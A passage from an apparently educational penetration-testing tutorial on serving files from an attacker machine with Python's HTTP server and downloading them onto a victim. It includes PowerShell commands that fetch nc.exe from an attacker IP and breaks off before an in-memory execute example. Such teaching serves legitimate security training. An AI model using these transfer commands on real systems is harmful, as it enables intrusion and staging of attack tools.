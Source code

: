 ```
python -m SimpleHTTPServer 80
python3 -m http.server 80
```

If you do not add the ’80’ at the end to tell Python to run the HTTP server over that port, it will run the HTTP server over pot 8000 by default. This can be annoying because you always have to add the port number into the URL when the server is not running on port 80.

> I personally use the Python HTTP server more than any other method. When targeting a victim, I will create a working directory on my attacker machine specific to the host I am targeting. Then I can copy any tools for specific exploits into that directory. Additionally, I also keep a Windows exploits folder on my attacker machine containing all of the common exploits and PowerShell scripts I use. This allows me to have everything ready to serve up to the victim from either directory while keeping the location of my exploits organized.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-123.png)

A great thing about using Python is that it logs the activity on your HTTP server right in the terminal window. This allows you to confirm that files have been downloaded. Alternatively, this can also be used if you have found a blind RCE vulnerability and need to confirm that it’s working. You can use one of the commands below to touch the HTTP server and then check the logs. If the logs come in, you know you have blind RCE.

Now that we have seen how to start the HTTP server, lets explore the various ways we can download files from the HTTP server onto the victim.

## **Downloading Files from Attacker’s HTTP Server: Browser (GUI)**

The easiest way to download files from our attacker machine is by simply navigating to our HTTP server using a browser on the victim.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-125-1024x698.png)

Clicking any of these will download the file into the current users Downloads folder.

## **Downloading Files from Attacker’s HTTP Server: PowerShell**

PowerShell has a built-in function called Invoke-WebRequest that can be used to download a file from our HTTP server like so:

```
IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe
```

Another way to download files using PowerShell is by using the WebClient class:

```
(New-Object System.Net.WebClient).DownloadFile('http://172.16.1.30/nc.exe', 'C:\temp\nc.exe')
```

While the last 2 examples allow you to download files onto disk, by using the Invoke-Expression function, we can also download and execute files directly into memory using Invoke-Expression:
